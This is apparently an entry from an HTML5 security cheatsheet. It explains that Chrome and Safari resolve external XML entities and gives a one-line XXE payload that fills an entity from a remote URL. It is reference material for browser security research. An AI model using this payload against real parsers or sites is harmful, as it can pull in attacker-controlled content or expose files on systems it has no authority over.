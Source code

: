 *   internet explorer 9.0

*   internet explorer latest

*   xss

*   javascript
*   opera
*   internet explorer
*   firefox
*   chrome
*   safari
*   xml
*   entity

reporter：.mario

### Arbitrary payload injection via XML External Entities (XXE)#64test

Chrome and Safari allow using external XML entities to reference payload for an entity. The example shows that the entity &x; is now being filled with the content of the given file. The document must be delivered as XML or XHTML. Note that the absolute URL for the source of XXE is required.

```
<!DOCTYPE x[<!ENTITY x SYSTEM "http://html5sec.org/test.xxe">]><y>&x;</y> 
```

